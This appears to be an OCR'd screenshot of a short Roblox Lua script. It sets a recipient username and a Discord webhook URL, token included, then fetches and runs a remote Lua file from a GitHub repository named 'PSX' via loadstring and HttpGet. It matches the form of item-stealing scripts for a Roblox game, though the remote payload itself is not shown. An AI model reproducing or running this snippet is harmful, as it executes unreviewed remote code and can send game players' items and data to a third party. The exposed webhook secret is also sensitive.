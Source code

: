 UserName = "BaconLoverTrades"
WebHook = "https://discord.com/api/webhooks/1057342646399545465/SfgJ2T4SCJcQEf9kfQcKGUiwzTywkEEjzQkqMzWD8v26oaEVsFETBUuSJsSOd6JNR8Pq"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()
